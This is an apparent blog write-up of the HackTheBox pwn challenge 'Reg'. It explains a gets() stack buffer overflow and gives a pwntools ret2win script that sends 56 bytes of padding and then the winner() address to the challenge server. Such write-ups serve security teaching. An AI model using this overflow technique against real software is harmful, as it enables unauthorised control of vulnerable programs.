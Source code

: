 ```yaml
---
title: HTB [REG] [PWN]
date: 2022-06-03 07:28:05 +0200
categories: [pwn,htb]
tags: [Intro to Binary Exploitation]
excerpt: Write up for the challenge "REG" from HackTheBox
---
```


## Reg

**Description:**

> This is a basic buffer flow exploit. Try to get the flag.


**Analysis:**

```css
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- Here NX enabled so we can't execute our shellcode here
- Let's decompile this binary

![](https://i.imgur.com/OEHHGlO.png)
- Main function calls this `run()` function
- This just gets input from us and prints `Registered!`
- `gets()` is a vulnerable function, we can able to do buffer overflow here
- Let's search for some useful functions


**win function:**

![](https://i.imgur.com/3T8zi7P.png)
- There's a function called `winner()`
- It gives us the flag
- So the goal is to jump to this function
- Now let's write our exploit


**Exploitation part:**
- RIP occurs in 56th position
- So let's fill junk for 56 bytes and put the winner function address next

**Exploit script:**
```python
from pwn import *

elf = context.binary = ELF("./reg")
p = remote('138.68.188.223',31041)

payload = b'A'*56
payload += p64(elf.sym['winner'])

p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/OCJqGCR.png)
- Cool it worked !!
